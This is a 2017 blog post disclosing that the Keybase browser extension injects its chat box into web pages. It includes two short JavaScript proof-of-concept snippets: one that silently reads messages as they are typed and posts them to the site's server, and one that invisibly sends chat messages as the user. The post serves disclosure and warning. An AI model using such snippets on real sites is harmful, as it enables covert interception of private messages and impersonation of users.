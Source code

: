 ```yaml
---
title: "Keybase Browser Extension Insecure"
date: Sat, 05 Aug 2017 10:26:45 GMT
draft: false
type: posts
categories: 
- 
---
```

# Keybase Browser Extension Insecure

<br/>

<br/>
Yesterday, I discovered that [Keybase](https://keybase.io) has a browser extension for both [Firefox](https://firefox.com) and Chrome. It activates whenever you land on a profile page on keybase.io, or a website which Keybase uses for proofs (currently Reddit, Twitter, Facebook, Github, Hacker News). It places a “Keybase Chat” button on the page. When you press this button, a compose window opens, you enter a message, and then the addon contacts your keybase desktop app in order to send a message to that user.

If you are lucky enough to discover the extension by visiting [https://keybase.io/docs/extension](https://keybase.io/docs/extension) and by actually reading the content of the page, you will come across this little bit of information:

> “The Keybase extension uses a compose box inside your browser. If you fear your browser or the social network site’s JavaScript has been compromised – say by another extension or even the social network acting fishy – then just compose the message inside the Keybase app directly. Or send a quick hello note through the extension and save the jucier private details for inside the app.”

This information is **not** on the Firefox or Chrome extension stores.

But what does it _actually_ mean?

It means that Reddit, Twitter, Facebook, Github, Hacker News, Keybase and any other site that they allow to execute JavaScript on their pages can perform the following actions if you visit their websites with the addon installed:

1.  Read any message that you type into the compose box, as you’re typing it.
2.  Send chat messages from you to other Keybase users.

For #1, to read the messages you are composing they simply need to serve up a small amount of JavaScript similar to the following when you visit:

```
if (document.querySelector('.keybase-chat')) {
  let msg = '';
  setInterval(() => {
    const t = document.querySelector('.keybase-reply textarea');
    if (!t || t.value.length === 0 || t.value === msg) return;
    msg = t.value;
    fetch('/report-keybase-chat?msg=' + encodeURIComponent(msg));
  }, 1000);
}
```

In the above code, the first line detects if the user has the keybase addon. If they do, it runs a check on a 1 second interval to see if there is a Keybase composer window open with a message in it. If there is, and the message being composed is different to what it was 1 second ago, then an ajax request is performed to send the content of that message to the server.

For #2, to send a message to a keybase user silently:

```
function sendKeybaseMessage(msg) {

  const s = document.createElement('style');
  s.type = 'text/css';
  s.textContent = '.keybase-reply{opacity:0 !important}';
  document.head.appendChild(s);

  document.querySelector('.keybase-chat').click();
  document.querySelector('.keybase-reply textarea').value = msg;
  const event = new UIEvent('change', { view: window, bubbles: true, cancelable: true });
  document.querySelector('.keybase-reply textarea').dispatchEvent(event);
  document.querySelector('.keybase-reply input[name="keybase-submit"]').click();
  document.querySelector('.keybase-close').click();
  s.remove();

}
```

The “style” related code is there to make sure that the user doesn’t notice the compose window opening and being filled with a message, and the message being sent, by making it invisible temporarily. To specify a recipient other than the one in the profile being viewed, a little more work would need to be done by the server to temporarily redirect you to a different profile page, but it would work.

The troubling thing is, they could actually have made this secure. As well as the chat functionality that they inject into the browsers DOM, they also add a Keybase icon into the browser UI it’s self, outside of the DOM. Clicking on that icon works exactly the same, except it doesn’t inject anything into the DOM, the compose window is outside of the webpage, making it obvious that the browser is in control rather than the webpage. The textarea can not be read and it can not be interacted with from JavaScript.

**Conclusion** : Continue installing and using the excellent desktop app. Don’t even think about installing the browser addon.

[![](https://www.grepular.com/images/amazon/yubikey_nano.jpg)](https://www.grepular.com/redir?key=amazon_yubikey_nano "Yubikey Nano") [![](https://www.grepular.com/images/amazon/saving_bletchley_park.jpg)](https://www.grepular.com/redir?key=amazon_saving_bletchley_park "Saving Bletchley Park")

#### [Source](https://www.grepular.com/Keybase_Browser_Extension_Insecure)

<br/>
---
